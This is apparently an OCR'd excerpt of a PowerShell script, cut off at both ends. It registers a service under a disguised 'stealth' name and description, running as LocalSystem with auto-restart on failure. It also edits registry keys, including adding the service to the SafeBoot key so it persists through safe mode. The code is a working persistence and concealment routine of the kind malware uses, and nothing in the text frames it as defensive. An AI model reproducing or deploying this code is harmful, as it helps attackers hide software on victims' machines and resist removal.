 ```powershell
        # Create new service with stealth configuration
        $binaryPath = "`"$($StealthConfig.InstallPath)\$($StealthConfig.ExecutableName)`""

        sc.exe create $StealthConfig.ServiceName binPath= $binaryPath start= auto DisplayName= $StealthConfig.DisplayName | Out-Null
        sc.exe description $StealthConfig.ServiceName $StealthConfig.Description | Out-Null

        # Set service to auto-start with delayed start
        sc.exe config $StealthConfig.ServiceName start= delayed-auto | Out-Null

        # Set service to run as LocalSystem
        sc.exe config $StealthConfig.ServiceName obj= LocalSystem | Out-Null

        # Configure service recovery options (auto-restart on failure)
        sc.exe failure $StealthConfig.ServiceName reset= 86400 actions= restart/5000/restart/5000/restart/5000 | Out-Null

        Write-StealthLog "Service registered as: $($StealthConfig.ServiceName)" -Level 'SUCCESS'
        return $true

    } catch {
        Write-StealthLog "Error updating service: $_" -Level 'ERROR'
        return $false
    }
}

function Set-RegistryStealth {
    Write-StealthLog "Applying registry stealth modifications..."

    try {
        $servicePath = "HKLM:\SYSTEM\CurrentControlSet\Services\$($StealthConfig.ServiceName)"

        # Verify service key exists
        if (-not (Test-Path $servicePath)) {
            Write-StealthLog "Service registry key not found: $servicePath" -Level 'ERROR'
            return $false
        }

        # Update ImagePath to use new executable location
        Set-ItemProperty -Path $servicePath -Name ImagePath -Value "`"$($StealthConfig.InstallPath)\$($StealthConfig.ExecutableName)`"" -Force

        # Create Parameters subkey if it doesn't exist
        $paramsPath = "$servicePath\Parameters"
        if (-not (Test-Path $paramsPath)) {
            New-Item -Path $paramsPath -Force | Out-Null
        }

        # Set error control (1 = normal)
        Set-ItemProperty -Path $servicePath -Name ErrorControl -Value 1 -Force

        # Set service type (0x10 = SERVICE_WIN32_OWN_PROCESS)
        Set-ItemProperty -Path $servicePath -Name Type -Value 0x10 -Force

        # Add to Safe Boot registry (for persistence through safe mode)
        $safeBootPath = "HKLM:\SYSTEM\CurrentControlSet\Control\SafeBoot\Network\$($StealthConfig.ServiceName)"
        if (-not (Test-Path $safeBootPath)) {
            New-Item -Path $safeBootPath -Force | Out-Null
            Set-ItemProperty -Path $safeBootPath -Name '(Default)' -Value 'Service' -Force
        }

        Write-StealthLog "Registry stealth applied successfully" -Level 'SUCCESS'
```